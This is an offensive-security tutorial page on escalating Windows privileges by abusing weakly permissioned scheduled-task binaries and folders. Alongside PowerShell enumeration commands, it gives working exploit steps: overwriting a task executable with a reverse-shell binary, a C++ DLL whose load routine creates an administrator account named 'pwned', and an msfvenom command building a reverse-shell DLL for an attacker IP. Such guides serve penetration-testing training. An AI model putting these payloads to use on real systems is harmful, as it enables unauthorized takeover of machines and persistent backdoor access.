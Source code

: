 # Weak File/Folder Permissions

## Theory

If we discover a Task that run with SYSTEM or highest privileges than our current user, the Task can be triggered, and If we have write permissions over the folder or the file (i.e binary or script) used by this task, then we can use it to escalate our privileges.

## Practice

### Task File Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Given sufficient permissions over a task's file (binary or scripts), swapping it with our own binary enables us to gain code execution as the user configured to run this task.

To identify weaknesses in task file permissions, we can take the following steps: retrieve a complete list of all task binary files, retrieve their permissions, identify interesting permissions referring our controlled user.

#### LOLBAS

We may use the following PowerShell command to make this enumeration

```powershell
Get-ScheduledTask | ForEach-Object { $taskAction = $_.Actions.Execute; if ($taskAction -and (Test-Path $taskAction -ErrorAction SilentlyContinue)) { $taskName = $_.URI; $taskAction; Get-Acl -LiteralPath $taskAction -ErrorAction SilentlyContinue | Select-Object @{Name='TaskName';Expression={$taskName}}, AccessToString, Owner } }|fl
```

If we find an interesting ACL over a task binary, before replacing it, we want to check the task's trigger and RunAs user.

```powershell
# Check RunAs and Trigger
schtasks.exe /TN <TASK_NAME> /V /FO LIST
```

#### PowerUp

Alternatively, we can use `Get-ModifiableScheduledTaskFile` from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```powershell
. .\PowerUp.ps1
Get-ModifiableScheduledTaskFile
```
{% endtab %}

{% tab title="Exploit" %}
If we find an editable task file, we can simply replace it with a malicious one as follow:

```powershell
# Backup the binary/script
copy /y "c:\Program Files\File Permissions Task\filepermservice.exe" c:\Temp\filepermservice_backup.exe

# Hijack the binary/script
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Task\filepermservice.exe"
```

We can now wait for the task to be triggered, or trigger it ourselves if we can.
{% endtab %}
{% endtabs %}

### Task DLL Hijacking

{% hint style="info" %}
DLL hijacking can be applied in many other cases, but this section focuses solely on Scheduled Tasks. For a more comprehensive approach, please refer to [this page](../dll-hijacking.md).
{% endhint %}

{% tabs %}
{% tab title="Enumerate" %}
In case you have write permissions over the Task folder from wich a binary is executed, we can write our DLL in, and then hijack the DLL search order. Here is the default DLL search order in windows (in safe mode which is the default):&#x20;

1. The executable directory.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

We can enumerate permissive task folders by using the following PowerShell command

```powershell
Get-ScheduledTask | ForEach-Object { $taskAction = $_.Actions.Execute; if ($taskAction -and (Test-Path $taskAction -ErrorAction SilentlyContinue)) { $folderPath = Split-Path -Path $taskAction -Parent; $taskName = $_.TaskPath; $folderPath; Get-Acl -LiteralPath $folderPath -ErrorAction SilentlyContinue | Select-Object @{Name='TaskName';Expression={$taskName}}, AccessToString, Owner } } |fl
```

If we find a writable task folder, we first want to exfiltrate its service binary to a local windows machine. On this controlled computer, download [Process Monitor (procmon)](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to monitor for missing or hijackable DLLs.

In procomon, specify this three filters (edit the your\_service\_name.exe with the found binary you found):

<figure><img src="../../../.gitbook/assets/Capture d’écran_2023-11-09_01-29-36.png" alt=""><figcaption><p>Procmon Filters</p></figcaption></figure>
{% endtab %}

{% tab title="Exploit" %}
If we've found a DLL we can hijack, the hard part is over. Now let's compile a custom DLL using the following code (in this example, the vulnerable DLL is named "hijackme.dll").

{% code title="hijackme.cpp" %}
```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwned P@ssword! /add");
  	    i = system ("net localgroup administrators pwned /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
{% endcode %}

```bash
#Compile it
x86_64-w64-mingw32-gcc hijackme.cpp --shared -o hijackme.dll
```

Or use msfvenom to directly generate a malicious DLL.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<ATTACKING_PORT> EXITFUNC=thread -f dll -o hijackme.dll
```

Now, after transferring the DLL to the target host, copy the DLL to the path we found.

```powershell
# Hijack the DLL 
copy /y c:\Temp\hijackme.dll "C:\Program Files\Folder Permissions Task\hijackme.dll"
```

We can now wait for the task to be triggered, or trigger it ourselves if we can.
{% endtab %}
{% endtabs %}
